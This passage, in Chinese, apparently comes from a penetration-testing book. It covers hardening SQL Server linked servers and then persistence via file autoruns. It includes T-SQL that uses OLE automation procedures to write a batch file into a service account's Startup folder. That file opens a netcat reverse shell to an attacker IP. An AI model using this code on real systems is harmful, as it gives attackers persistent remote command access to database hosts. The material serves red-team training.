 ![图 9.21 – 通过 OpenQuery 进行域用户枚举](img/B18964_09_21.jpg)

图 9.21 – 通过 OpenQuery 进行域用户枚举

为了防止链接滥用，移除未使用的链接，并检查链式链接。确保链接没有配置 `sysadmin` 或过于宽松的权限。考虑禁用 `RPC Out`。

以下部分将展示如何通过使用 SQL Server 的合法功能，在 SQL Server 和操作系统层面实现持久性。

# 持久性

既然我们已经了解了域和域控制器级别的持久性，为什么还要关心 SQL Server 呢？大多数侦测控制措施是在操作系统层面实现的，而数据库审计则不太常见且不够彻底。SQL Server 服务帐户可能在操作系统上拥有广泛的权限，这为攻击者提供了一个绝佳的藏身之处，因为所有可疑的操作都会被记录为由服务帐户执行的。最后，即使在繁忙的数据库上启用了审计和监控，也很难将合法活动与恶意活动区分开。我们将从通过自动运行在操作系统层面实现持久性的最吵杂且不安全的方式开始，然后逐步过渡到 SQL Server 层面，使用启动程序和触发器。

## 文件和注册表自动运行

这两种方法在操作安全性上非常不安全，因为 `Startup` 文件夹和注册表项通常会被安全解决方案（如 Sysmon 和 EDR）监控。在这些位置写入文件，使用 SQL Server 服务帐户，可能会被视为合法行为。再说一次，强烈不推荐这么做。

我们将从写入文件到 `Startup` 文件夹开始。如果 SQL Server 服务帐户在主机上配置了广泛的权限，便可以将文件放入具有高权限用户的文件夹，甚至是所有用户的文件夹。必须提前启用 OLE 自动化过程。以下代码将在 `sql_svc` 的 `Startup` 文件夹中创建一个批处理文件，该文件将与我们的机器建立连接：

```
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\rev.bat', 2, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, 'C:\Users\Public\nc.exe -e cmd 192.168.56.100 443'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
```
